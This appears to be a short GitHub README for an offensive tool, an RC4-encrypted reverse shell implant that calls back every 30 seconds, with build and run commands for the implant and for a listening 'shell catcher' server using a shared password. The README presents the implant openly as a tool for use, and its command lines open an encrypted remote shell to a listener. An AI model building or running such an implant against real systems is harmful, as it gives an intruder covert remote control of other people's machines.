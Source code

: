 # RC4 encrypted reverse shell

The reverse shell attempts to make a connection every 30 seconds.
Traffic is RC4 drop 1024 encrypted with the sha256 hash of the key. 

## Useage

### Reverse Shell
```
gcc -o implant reverse-shell.c sha256.c
./implant 127.0.0.1 58008 MY-SUPER-SECRET-PASSWORD
```

### Shell Catcher
```
gcc -o server ./server.c sha256.c
./server 58008 MY-SUPER-SECRET-PASSWORD 
```